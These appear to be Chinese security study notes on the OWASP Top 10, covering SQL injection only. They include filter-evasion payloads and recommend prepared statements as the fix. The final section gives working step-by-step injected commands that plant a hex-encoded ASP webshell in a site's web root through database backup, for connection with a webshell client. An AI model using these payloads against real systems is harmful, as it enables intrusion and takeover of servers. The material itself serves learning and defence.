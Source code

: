 ```yaml
---
title: OWASP_TOP10
date: 2019-07-26 09:05:57
tags: [安全,面试]
---
```


​	OWASP全称Open Web Application Security Project，即开源应用程序安全项目。OWASP TOP为该项目每年发布的最具权威的就是其”十大安全漏洞列表”。

### 1.注入

​	sql注入等

​	**危害：**导致数据丢失或数据破坏

**常见混淆方式：**

> 1.使用注释来进行截断
>
> [http://victim.com/news.php?id+un/\**//ion+se/**/lect+1,2,3](http://victim.com/news.php?id+un/**/ion+se/**/lect+1,2,3)--
>
> 2.变换大小写
>
> http://victim.com/news.php?id=1+UnIoN SeLecT 1,2,3--
>
> 3.替换关键词(将关键词插在关键词中)
>
> http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--



**解决方法**：

> **1.最佳方法：采用sql语句预编译和绑定变量**
>
> ​	采用了PreparedStatement，就会将sql语句："select id, no from user where id=?" **预先编译好，也就是SQL引擎会预先进行语法分析，产生语法树，生成执行计划，也就是说，后面你输入的参数，无论你输入的是什么，都不会影响该sql语句的 语法结构了**，因为语法分析已经完成了，而语法分析主要是分析sql命令，比如 select ,from ,where ,and, or ,order by 等等。所以即使你后面输入了这些sql命令，也不会被当成sql命令来执行了，因为这些sql命令的执行， 必须先的通过语法分析，生成执行计划，既然语法分析已经完成，已经预编译过了，**那么后面输入的参数，是绝对不可能作为sql命令来执行的，****只会被当做字符串字面值参数**。所以sql语句预编译可以防御sql注入。
>
> 2.一些特殊情况不能sql语句预编译的，可以**进行严格的输入检查，限制输入数据类型、过滤关键字、使用正则表达式限制等**

**sql注入方式写入webshell：**

> 用工具对目标站直接写入一句话**条件**:root权限以及绝对路径
>
> 方式：
>
> ​	1.
>
> ​		(1)创建自己的数据库  [http://www.aspx-sqli.com/index.asp?id=1;create%20database%20zhong](http://www.aspx-sqli.com/index.asp?id=1;create database zhong);
>
> ​		(2)先进行一次完整备份： ?id=1;backup database zhong to disk = 'E:\wwwroot\asp_sqli';
>
> ​		(3)创建新表：在数据库名为中的库里面创建一个新的cmd表 create table [dbo].[zhong] ([cmd] [image]);
>
> ​		(4)向cmd表中插入数据 ?id=1;insert into zhong(cmd) values(0x3C25657865637574652872657175657374282276616C7565222929253E);
>
> ​		(5)进行数据库的差异备份  ?id=1;backup database zhong to disk='E:\wwwroot\asp_sqli\zhongqzi.asp' WITH DIFFERENTIAL,FORMAT;
>
> ​		(6)菜刀连接
